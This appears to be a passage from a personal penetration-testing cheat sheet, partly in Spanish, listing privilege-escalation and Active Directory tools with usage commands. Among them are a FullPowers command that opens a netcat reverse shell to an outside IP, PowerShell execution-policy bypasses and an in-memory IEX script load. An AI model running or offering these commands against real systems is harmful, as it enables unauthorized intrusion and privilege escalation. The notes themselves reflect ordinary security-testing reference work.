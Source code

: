 ```sh
gobuster dir -u [URL] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 500 

-w /usr/share/wordlists/dirb/common.txt  
```
## Tools

### Certipy
https://github.com/ly4k/Certipy

### FullPowers
https://github.com/itm4n/FullPowers
FullPowers is a Proof-of-Concept tool I made for automatically recovering the default privilege set of a service account including SeAssignPrimaryToken and SeImpersonate.
```cmd
FullPowers
FullPowers -c "powershell -ep Bypass"
FullPowers -c "C:\TOOLS\nc64.exe 1.2.3.4 1337 -e cmd" -z
```
### LinEnum
https://github.com/rebootuser/LinEnum

### linuxprivchecker
https://github.com/sleventyeleven/linuxprivchecker
```sh
python linuxprivchecker.py -w -o linuxprivchecker.log
```
### mimikatz
https://github.com/ParrotSec/mimikatz

### PowerCat
https://github.com/besimorhino/powercat

### Powermad
https://github.com/Kevin-Robertson/Powermad

### PowerView
https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon


### PrivescCheck

Cargar el script
```cmd
. .\PrivescCheck.ps1

Set-ExecutionPolicy Bypass -Scope process -Force
. .\PrivescCheck.ps1

Get-Content .\PrivescCheck.ps1 | Out-String | IEX
```
Uso 
```sh
Invoke-PrivescCheck -Extended
Invoke-PrivescCheck -Extended -Report "PrivescCheck_$($env:COMPUTERNAME)"
```
